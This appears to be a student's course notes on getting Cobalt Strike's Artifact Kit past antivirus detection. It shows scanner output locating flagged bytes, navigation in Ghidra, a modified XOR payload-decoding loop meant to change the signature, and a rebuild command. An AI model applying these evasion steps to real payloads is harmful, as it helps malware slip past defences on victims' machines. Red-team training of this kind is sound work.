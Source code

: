 ```powershell
[*] Testing 3089 bytes
[*] Threat found, splitting
[*] Testing 3069 bytes
[*] Threat found, splitting
[*] Testing 3059 bytes
[*] Threat found, splitting
[*] Testing 3054 bytes
[*] Threat found, splitting
[*] Testing 3052 bytes
[*] Threat found, splitting
[!] Identified end of bad bytes at offset 0xBEC
00000000   B9 06 00 00 00 4C 89 E7  4C 8D 05 05 E9 04 00 F3   1····L?çL?··é··ó
00000010   AB 4C 89 E9 C7 84 24 88  00 00 00 68 00 00 00 FF   «L?éÇ?$?···h···ÿ
00000020   15 57 2D 05 00 45 31 C9  45 31 C0 31 C9 4C 89 64   ·W-··E1ÉE1A1ÉL?d
00000030   24 48 4C 89 EA 48 89 6C  24 40 48 C7 44 24 38 00   $HL?êH?l$@HÇD$8·
00000040   00 00 00 48 C7 44 24 30  00 00 00 00 C7 44 24 28   ···HÇD$0····ÇD$(
00000050   04 00 00 00 C7 44 24 20  01 00 00 00 FF 15 8A 2B   ····ÇD$ ····ÿ·?+
00000060   05 00 85 C0 74 32 48 8B  4C 24 70 48 85 C9 74 28   ··?At2H?L$pH?Ét(
00000070   0F 10 44 24 70 48 8D 54  24 50 4C 63 CE 49 89 D8   ··D$pH?T$PLcII?O
00000080   48 8B 84 24 80 00 00 00  0F 11 44 24 50 48 89 44   H??$?·····D$PH?D
00000090   24 60 E8 6E FE FF FF 90  48 81 C4 F8 04 00 00 5B   $`èn_ÿÿ?H?Äo···[
000000A0   5E 5F 5D 41 5C 41 5D C3  57 56 48 83 EC 68 48 8D   ^_]A\A]AWVH?ìhH?
000000B0   35 62 E8 04 00 31 C0 49  89 C9 48 8D 7C 24 20 B9   5bè··1AI?ÉH?|$ 1
000000C0   10 00 00 00 41 89 D2 F3  A5 4C 89 C2 4C 8D 44 24   ····A?Oó¥L?AL?D$
000000D0   20 48 89 C1 83 E1 07 8A  0C 0A 41 30 0C 00 48 FF    H?A?á·?··A0··Hÿ
000000E0   C0 48 83 F8 40 75 EA 31  C0 41 39 C2 7E 12 48 89   AH?o@uê1AA9A~·H?
000000F0   C1 83 E1 07 8A 0C 0A 41  30 0C 01 48 FF C0 EB E9   A?á·?··A0··HÿAëé

[*] Run time: 15.83s
 14 40 05 00 14 40 05 00  14 40 05 00 4B 45 52 4E
```
this spits out a `bad byte offset` which you use ghidra to identify where to look in the code and make modifications
In Ghidra utilized `Navigation -> Go To...` and threw in `0xBEC` the highlighted portion shows the arguments that need to be fixed


![[Pasted image 20231106185303.png]]
highlight the entire function in `ghidra`
![[Pasted image 20240209002800.png]]

modified the `for` loop as instructed in the cobalt strike material
![[Pasted image 20231106185528.png]]
```powershell
for (x = 0; x < length; x++) {
    char* ptr = (char *)buffer + x;

    /* do something random */
    GetTickCount();

    *ptr = *ptr ^ key[x % 8];
}
```
modifying the portionthat says ` /* decode the payload with the key */`
![[Pasted image 20240209003554.png]]
what it will end up looking like 
![[Pasted image 20240209003835.png]]
rebuilt the kit in `WSL` session
```bash
ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/artifact [127]>
./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts
[Artifact kit] [+] You have a x86_64 mingw--I will recompile the artifacts
```